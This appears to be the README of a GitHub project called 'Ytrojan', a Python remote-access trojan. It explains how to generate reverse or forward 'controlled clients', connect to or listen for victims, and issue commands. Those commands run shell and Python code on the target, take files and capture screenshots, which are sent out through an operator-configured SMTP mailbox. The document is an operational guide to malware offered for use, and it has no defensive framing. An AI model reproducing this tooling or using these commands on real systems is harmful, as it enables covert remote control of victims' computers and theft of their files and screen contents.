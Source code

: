 # Ytrojan

## This version is out of date
## Please wait for the latest translation

## Select Your Language

Zh-cn   En-us

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, get, win, py
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell py
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. get [Path] #Get the file
3. win #Get the current screenshot
4. py [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
    shell id
    shell ls
2. get a.txt #Get a.txt
    get /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. py print('hello world') #output hello world
    py import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "get" and "win" commands use the smtp protocol to transfer files. You must do the following before using these two commands!!!

````
$> py host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
命令执行成功
$> py port = "smtp service port" #usually port 25
命令执行成功
$> py username = "your email"
命令执行成功
$> py password = "The password provided to you by the smtp service operator"
命令执行成功
````
